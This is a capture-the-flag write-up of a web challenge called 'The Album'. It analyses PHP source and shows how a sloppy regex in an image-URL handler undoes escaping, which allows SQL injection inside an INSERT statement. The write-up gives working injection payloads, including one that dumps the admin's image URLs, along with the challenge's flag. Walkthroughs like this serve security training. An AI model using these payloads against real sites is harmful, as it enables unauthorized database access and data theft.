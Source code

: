 Challenge Description
```
WGMY Fortnight Challenge #1902

#1902 The Album

can you leak admin's secret album?.
http://fortnight1802.wargames.my:8001

And you may find this helpful:
https://drive.google.com/file/d/1ei2RloOrmsUmlzIFkzvgutctIMcwFocS/view?usp=sharing
```
# Analysing
Look at the source code, there are 4 main function:
- Register
- Login
- Add image
- Delete image

In Register and Login, the username parameter is pass to `mysqli_real_escape_string()` function and password parameter is pass to `hash()` function
```php
$username = mysqli_real_escape_string($con, $_POST['username']);
$password = hash('sha256', $_POST['password']);
```

So SQL Injection is not possible in Register and Login

In Delete image, the delete parameter is pass to `intval()` function (Convert to integer), so also not possible to perform SQL injection.
```php
$id = intval($_POST['delete']);
```

Now only left Add image, 
```php
$url = mysqli_real_escape_string($con, $_POST['url']);
$scheme = parse_url($url, PHP_URL_SCHEME);
$ext = pathinfo($url, PATHINFO_EXTENSION);
if (($scheme !== 'http' && $scheme !== 'https') ||
    ($ext !== 'png' && $ext !== 'jpg')) {
    echo 'Image format not supported<br>';
} else {
    $name = preg_replace('(.png|.jpg)', '', basename($url));
    $query = "INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')";
...
...        
```

First it pass the url parameter to `mysqli_real_escape_string`, `parse_url` and `pathinfo`

`parse_url` is to extract the URL scheme like `http` and `https`

`pathinfo` is to extract the URL extension like `.php`, `.html` etc.

Both function seems not vulnerable, continue to next line:
```php
$name = preg_replace('(.png|.jpg)', '', basename($url));
```
It pass to `basename` and pass to `preg_replace` 

`basename` returns the path to a file or directory of the URL

`preg_replace` is to perform a regular expression for search and replace the content

So this expression `(.png|.jpg)` is regular expression

According to regex101.com:
```
1st Capturing Group (.png|.jpg)
1st Alternative .png
. matches any character (except for line terminators)
png matches the characters png literally (case sensitive)
2nd Alternative .jpg
. matches any character (except for line terminators)
jpg matches the characters jpg literally (case sensitive)
```

It replace not only .png and .jpg, **because `.` in regex means any character except new line** 

So means if we put `http://jjpg.jpg` as URL, the `name` variable will end up become empty because it replace with empty string.

# Proof of Concept
1. Put `http://'jpg.jpg` as the URL
2. `mysqli_real_escape_string` will add a backslash before single quote (`'` become `\'`)
- `http://'jpg.jpg` become `http://\'jpg.jpg`
3. `basename` will extract the file path : `\'jpg.jpg`
4. `preg_replace` will delete the extension 
- `'jpg.jpg` will be deleted so left `\`
5. `\` will be put inside the query as `$name`:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')"
```
6. **`'{$name}'` become `'\'` (quote is not enclose because `\'` is treated as a string)**

Submit the URL `http://\'jpg.jpg` you will get `Failed to add image` response:
![image1.png](image1.png)

Meaning the **SQL query is failed** in other words, **the query is injectable**

# Exploit
In order to read contents in the database we need to enclose the single quote

Because `mysqli_real_escape_string` add a backslash before single quote, we are possible to do that:

`http://'jpg',(SELECT 1))#.jpg` $name become `\\',(SELECT 1))#`

When inside query:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '\\',(SELECT 1))#', '{$url}')"
```

Then we can read the url content by inspecting the web page:
![image2](image2.png)

First, find the admin's user_id:
```
http://'jpg',(SELECT id FROM user WHERE username = CHAR(97,100,109,105,110)))#.jpg
``` 
Result: `34`

But I encounted a problem when select from image:
```
http://'jpg',(SELECT url FROM image WHERE user_id = 34 LIMIT 1))#.jpg
```
It return `Failed to insert image`

After some research I found that inside INSERT statement, SELECT statement inside cannot have the same table name

According to the [docs](https://dev.mysql.com/doc/refman/8.0/en/insert-select.html):
![image3](image3.png)

In order to fix that just use SQL Alias that will change the table to different name

# Solution
The final query that can leak admin's album:
```
http://'jpg',(SELECT GROUP_CONCAT(i.url) FROM image AS i WHERE user_id = 34))#.jpg
```
`GROUP_CONCAT` is a function will select multiple rows into one line, and each row will separated with `,`

Result:
```diff
https://i.kym-cdn.com/photos/images/original/000/435/652/1f9.png,
https://i.kym-cdn.com/photos/images/newsfeed/000/471/542/069.jpg,
https://i.kym-cdn.com/photos/images/newsfeed/000/549/306/165.gif,
+ /secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png,
https://i.ky
```
Saw a few nonsense image, only one is the flag image:
```
/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png
```

Go to http://fortnight1802.wargames.my:8001/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png and there's a flag!

![flag](flag.png)

# Flag
> wgmy{7959a60d89e1d4fba8caa69f5214525e}